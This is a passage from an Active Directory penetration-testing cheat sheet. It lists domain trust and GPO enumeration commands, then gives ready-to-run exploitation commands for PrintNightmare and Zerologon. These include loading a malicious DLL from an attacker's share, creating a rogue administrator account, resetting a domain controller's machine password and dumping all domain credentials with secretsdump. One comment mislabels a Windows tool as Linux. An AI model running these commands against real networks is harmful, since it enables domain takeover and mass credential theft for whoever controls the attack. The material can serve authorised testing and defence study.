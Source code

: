 ### **Trust Relationships**
```bash
# Linux
nltest /domain_trusts

# Windows
Get-DomainTrust
```

### **GPO Enumeration**
```powershell
# PowerView
Get-DomainGPO
Get-DomainGPOLocalGroup
```

---

## 💥 **Advanced Exploitation Techniques**

### **🖨️ PrintNightmare (CVE-2021-1675/34527)**

#### **Linux:**
```bash
# Impacket
rpcdump.py @DC_IP | grep -i spooler
python3 CVE-2021-1675.py domain.com/lowpriv:password@DC_IP '\\attacker_ip\share\evil.dll'

# CubeO1d Implementation
python3 CVE-2021-1675.py domain.com/user:pass@target '\\\attacker\share\rev.dll'
```

#### **Windows:**
```powershell
# PowerShell Implementation
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -DriverName "PrintMe" -NewUser "adm1n" -NewPassword "P@ssw0rd123"

# C# Implementation
.\SharpPrintNightmare.exe C:\Windows\System32\kernelbase.dll \\attacker\share\evil.dll
```

### **⚡ Zerologon (CVE-2020-1472)**

#### **Linux:**
```bash
# Test for vulnerability
python3 zerologon_tester.py DC_NAME DC_IP

# Exploit
python3 cve-2020-1472-exploit.py DC_NAME DC_IP
secretsdump.py -just-dc -no-pass DC_NAME\$@DC_IP

# Restore machine account
python3 restorepassword.py domain.com/DC_NAME@DC_NAME -target-ip DC_IP -hexpass ORIGINAL_HEX_PASSWORD
```
